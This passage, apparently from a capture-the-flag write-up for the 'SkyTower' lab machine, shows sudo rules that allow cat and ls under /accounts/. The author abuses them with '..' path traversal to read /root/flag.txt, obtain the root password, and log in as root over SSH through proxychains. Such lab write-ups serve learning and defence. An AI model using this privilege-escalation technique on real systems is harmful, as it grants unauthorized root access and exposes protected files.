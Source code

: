 ```shell_session
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```

Both these commands allow for directory traversal, as `..` can be used to get to the parent directory, which meant I was able to get the listing of `/root` and view the flag:

```shell_session
sara@SkyTower:~$ sudo ls /accounts/../root
flag.txt
sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```

Now that I had the password for the `root` user, I was able to login as `root` and complete the challenge:

```shell_session
root@kali:~# proxychains ssh root@10.2.0.104
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-10.2.0.104:3128-<><>-10.2.0.104:22-<><>-OK
root@10.2.0.104's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 09:01:28 2014
root@SkyTower:~#
```
